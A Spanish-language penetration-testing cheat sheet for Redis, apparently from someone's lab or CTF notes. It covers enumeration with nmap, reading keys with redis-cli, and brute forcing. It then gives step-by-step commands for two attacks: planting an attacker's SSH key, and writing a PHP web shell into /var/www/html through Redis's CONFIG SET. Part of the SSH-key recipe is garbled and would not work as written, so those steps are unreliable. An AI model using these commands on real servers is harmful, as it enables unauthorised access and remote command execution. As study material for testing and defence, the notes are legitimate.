 # REDIS

## Enumeración
### Canales activos
```nmap
nmap -p PORT --script redis-info IP
```
## Interacción con el servicio
### Conexión mediante redis-cli
```bash
redis-cli -h IP
```
### Obtener versión desde un servicio redis
```redis
INFO
```
#### Obtener los nombres de las keys desde un servicio redis
```redis
KEYS *
```
#### Listar todos los items bajo una key desde el servicio redis
```
LRANGE KEYNAME 0 -1
```
```
SMEMBERS KEYNAME
```
```
HGETALL KEYNAME
```
#### Autenticarse en el servico redis
```
AUTH username
```
#### Obtener directorio del usuario redis
```
CONFIG GET dir
```
## Ataque por fuerza bruta
### Nmap Script
```nmap
nmap -p PORT --script redis-brute IP
```
## Exploiting
### Add ssh key
* 1. Obtener el directorio de redis
```
CONFIG GET dir
```
* 2. Comprueba si tienes acceso al .ssh de el usuario redis
```
CONFIG GET /redis/dir/.ssh
```
* 3. Pasamos nuestra clave a esa carpeta
```
cat rsa_key | redis-cli -h IP -x set ssh_key
```
### Web Shell
* 1. Obtener/guessear la ruta del directorio de la web y configurarlo como directorio de redis
```
config set dir /var/www/html
```
* 2. 
```
config set dbfilename redis.php
```
* 3. Subir la shell
```
set test " <?php system($_GET['cmd']); ?> "
```
